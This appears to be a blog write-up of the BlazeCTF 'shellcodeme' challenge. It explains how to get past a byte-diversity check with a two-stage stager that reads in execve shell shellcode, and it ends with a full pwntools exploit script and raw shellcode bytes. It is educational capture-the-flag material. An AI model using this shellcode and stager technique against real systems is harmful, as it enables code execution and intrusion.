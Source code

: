 ```yaml
---
layout: post
title: "BlazeCTF writeup — shellcodeme"
date: 2018-04-26 06:23:17 +0000
categories: blog
---
```


### BlazeCTF writeup — shellcodeme

This challenge is interesting and kinda familiar...

Looking at its source code:

```
int main() {    setbuf(stdout, NULL);    unsigned char seen[257], *p, *buf;    void (*f)(void);    int i;    memset(seen, 0, sizeof seen);    buf = mmap(0, BUF_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);    puts("Shellcode?");    fgets(buf, BUF_SIZE, stdin);    for(p=buf; *p != '\n'; p++) {        seen[256] += !seen[*p];        seen[*p] |= 1;    }    if(seen[256] > 7) {        puts("Shellcode too diverse.");        _exit(1);    } else {        *(void**)(&f) = (void*)buf;        f();        _exit(0);    }}
```

If you play CTF’s before, it should not be strange to you. It directly asks for a shellcode, in binary form, but enforces a strict check on the shellcode itself. In this case, it checks for the diversity of instructions’ opcode…

What does it mean? Reading the source code, it actually means we can’t have more than 7 distinct bytes in our whole shellcode binary! This is somehow harder than length limitation, because we can pick instructions based on length, but for diversity it is harder to pick… A shorter instruction doesn’t necessarily contribute less to overall diversity: for example, if we repeat a same instruction for many times, the overall diversity doesn’t change at all… So, it is more complicated to control the final diversity of our shellcode.

What’s more important, is it even possible to reduce any shellcode’s diversity down to 7? Looking at the shortest one I can find from Google: https://www.exploit-db.com/exploits/36858/ , 23 bytes, its diversity is surely much larger than 7… Is it possible to reduce it down to 7? I seriously doubt, at least my x86 assembly skill is far from good enough to challenge it.

Yeah, it is easy to think of the brilliant movfuscator, we get the idea but even with only mov’s we still can’t reduce it down to 7, because x86 mov’s opcodes are so different too.

So… is there any way to bypass it? My first thought is to overflow seen[256] to bypass seen[256]>7 check. But it is impossible, because there is always one character missing from this ASCII table (seen[]), that is “\n”. fgets() always consumes it, therefore the most we get is 255 which is not yet overflowed. Sigh…

```
seen[256]
```

```
seen[256]>7
```

```
fgets()
```

It is nearly impossible to write shellcode directly to meet this requirement. What other way we can think of? What if we can read more? What about reading more instructions and then loading our real shellcode in the second input? Sounds doable… Let’s divide it to 4 steps:

Obviously we still have to pass the diversity check in step 1), but now it is much easier since read(STDIN) is much simpler than execve().

Let’s start with a quick and simple version:

```
xor rdi, rdi
```

```
xor rax, raxmov rsi, Xmov rdx, Ysyscall
```

Before we check the diversity, we need to figure out X and Y.

X is the buffer which we want to read our real shellcode into. Because we have no control of the code flow yet, so have to choose $rip after syscall as the buffer. Fortunately, $rbp already points to our first instruction here, as call rbp tells us. If we want exactly the $rip after syscall, we have to do an additional operation, that is, adding some offset to $rbp. Thinking it more, we can safely put $rbp here as we can pad with nop until we reach after syscall.

```
syscall
```

```
call rbp
```

```
syscall
```

```
nop
```

```
syscall
```

Y is the number of bytes we could read into, at least larger than 23 which is the minimum shellcode I can find online. To reduce the diversity, we can pick 0x48 temporarily:

```
%  rasm2 -b64 'xor rax, rax; xor rdi, rdi; mov rsi, rbp; mov rdx, 0x48; syscall'4831c04831ff4889ee48c7c2480000000f05
```

its diversity is still 11, larger than 7 but very close now!

How can we reduce it even more? Is there anything we can reuse? Yes, in fact we can reuse its context, that is the registers at the time we execute the call rbp. Notice that, $rdi is already 0, and $rbx=0x400 is a fairly good candidate for the above Y… To further reduce the diversity we want to use as many similar instructions as possible, finally I get:

```
call rbp
```

```
% rasm2 -b64 'mov rdx, rbx; mov rax, rdi; mov rsi,rbp; syscall'4889da4889f84889ee0f05
```

And the complete solution is:

```
#!/usr/bin/env python
```

```
from pwn import *
```

```
context.log_level = 'debug'
```

```
r = remote("shellcodeme.420blaze.in", 420)r.recvline()# rasm2 -b64 'mov rdx, rbx; mov rax, rdi; mov rsi,rbp; syscall'r.sendline('\x48\x89\xda\x48\x89\xf8\x48\x89\xee\x0f\x05\x0a')r.sendline('\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05')r.interactive()r.close()
```

(The binary in this challenge has been changed after I solved it, so you can’t just use the above shellcode with the latest binary.)